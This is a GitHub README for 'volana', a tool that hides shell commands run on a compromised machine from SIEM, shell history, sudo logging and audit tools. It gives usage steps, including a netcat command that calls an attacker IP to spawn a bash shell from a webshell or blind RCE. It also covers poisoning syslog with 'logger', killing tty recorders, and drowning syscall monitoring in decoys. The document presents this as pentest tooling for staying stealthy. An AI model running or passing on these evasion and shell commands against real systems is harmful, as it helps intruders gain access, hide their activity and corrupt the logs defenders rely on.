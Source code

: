 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM/detection system </h4>
 <p> During pentest, an important aspect is to <b>be stealth</b>. For this reason you should <b>clear your tracks after your passage</b>. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the afterwards cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana executes for you). Like this you <b>clear your tracks DURING your passage</b></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawn it, you are a hacker, it's your job ! [otherwise](#from-non-interactive-shell)). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## Build volana with encryption key
make build.volana-with-encryption

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decr [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use volana usually to be stealth (.volana)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched

* Detection systems that are based on history command output
* Detection systems that are based on history files
  * `.bash_history`, ".zsh_history" etc ..
* Detection systems that are based on bash debug traps
* Detection systems that are based on sudo built-in logging system
 
### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
* Detection systems that are based on syslog files (e.g. `/var/log/auth.log`)
  * Only for `sudo` or `su` commands
  * syslog file could be modified and thus be poisoned as you wish (e.g for */var/log/auth.log*:`logger -p auth.info "No hacker is poisoning your syslog solution, don't worry"
* Terminal (tty) recorder (`script`, `screen -L`, [`sexonthebash`](https://github.com/ariary/sexonthebash), `ovh-ttyrec`, etc..)
  * Easy to detect & avoid: `pkill -9 script`
  * Not a common case
  * `screen` is a bit more difficult to avoid, however it does not register input (secret input: `stty -echo` => avoid)
* Detection systems that are based on syscall (eg auditd,LKML/eBPF)
  * Difficult to analyze, could be make unreadable by making several diversion syscalls
* Custom `LD_PRELOAD` injection to make log
  * Not a common case at all

## Bug bounty

Sorry for the clickbait title, but no money will be provided for contibutors. 🐛
Let me know if you have found:
* a way to detect `volana`
* a way to spy console that don't detect `volana` commands
* a way to avoid a detection system

[Report here](https://github.com/ariary/volana/issues/new/choose)

 
## Credit
* [8 ways to spy on console](https://github.com/annmuor/zn2021_8ways]
* [moonwalk](https://github.com/mufeedvh/moonwalk): similar tool that clear tracks AFTER passage
